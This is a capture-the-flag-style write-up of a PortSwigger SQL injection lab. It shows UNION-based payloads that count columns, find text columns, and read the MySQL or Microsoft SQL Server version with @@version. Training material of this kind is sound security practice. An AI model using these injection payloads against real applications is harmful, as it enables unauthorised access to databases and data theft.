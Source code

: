 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/87c37d0d-a9be-450a-91be-316964a825fc)

## Solution :

***Since it is either microsoft or MYQL database use # as comment***

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL#
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cef3ba8e-ec10-4ec7-a5f7-9f9433399c4a)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan',NULL #
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/72b313f5-d507-447a-a4e0-1c57f3a7682a)

####  Database version 

To find version of both MYSQL & Microsoft database are the same - `@@version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT @@version,NULL #
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ec9f4b71-d3a8-4823-89e4-941a8ae81fa7)

